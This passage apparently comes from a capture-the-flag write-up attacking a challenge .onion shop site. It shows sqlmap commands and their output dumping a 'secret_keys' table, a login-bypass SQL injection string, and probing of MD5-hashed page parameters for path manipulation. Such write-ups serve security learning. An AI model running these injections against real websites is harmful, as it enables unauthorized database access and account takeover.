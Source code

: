 And then the columns of the table secret_keys:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site -T secret_keys --columns
[CUT BY TROLLI101]
tabase: pengus_site
Table: secret_keys
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| secret_key | varchar(200) |
+------------+--------------+
[CUT BY TROLLI101]
```

Finally we dump the column and get the secret key:
```bash
$ sqlmap --proxy=http://127.0.0.1:8080 -u http://7y4b2aymlqwmkyuh.onion --cookie="PHPSESSID=4e0chtslg9i10l3f1hdd4ee6n3" --data="k=foo" -D pengus_site -T secret_keys -C secret_key --dump
[CUT BY TROLLI101]
Database: pengus_site
Table: secret_keys
[1 entry]
+--------------------------------------------------------------------------------------------------+
| secret_key                                                                                       |
+--------------------------------------------------------------------------------------------------+
| K7WjFm6eaB3TDD5ZjtfxFVAdCQJaRHyphmpDkfvm7JaqP8rWHF6cXPDzRYqZCKw3xyeQrFmVL6n93J2WaL
nQU2efEfZPx2fv |
+--------------------------------------------------------------------------------------------------+
[CUT BY TROLLI101]
```

Which was useles, I was searching too far away. We could use a much simpler injection to login, entering this string in the login field to get logged in: `1' or '1' = '1`

But this was only the first part, fasten your seat belts! With the key we can now log into the website and are greeted by pengu and he is happy to have us as his customer. We now have access to 3 more pages:

- <http://7y4b2aymlqwmkyuh.onion/?p=106a6c241b8797f52e1e77317b96a201> main page, home
- <http://7y4b2aymlqwmkyuh.onion/?p=86024cad1e83101d97359d7351051156> products page
- <http://7y4b2aymlqwmkyuh.onion/?l> logout

We notice that the parameter `p` in the URL is actually a MD5 hash. When cracking both with online service we get two strings, "home" and "products" which makes sense since this is the name of the pages. We can then try some more things, I did a test with lots of file/directories hashed to md5 but only md5(index) gave something. When called, the following page will return ~12MB of data, looking like 255 times the home page.

Then I launched a new Burp scanner on the home page that returns a result about file path manipulation. And indeed, the response with both those URLs is identical:
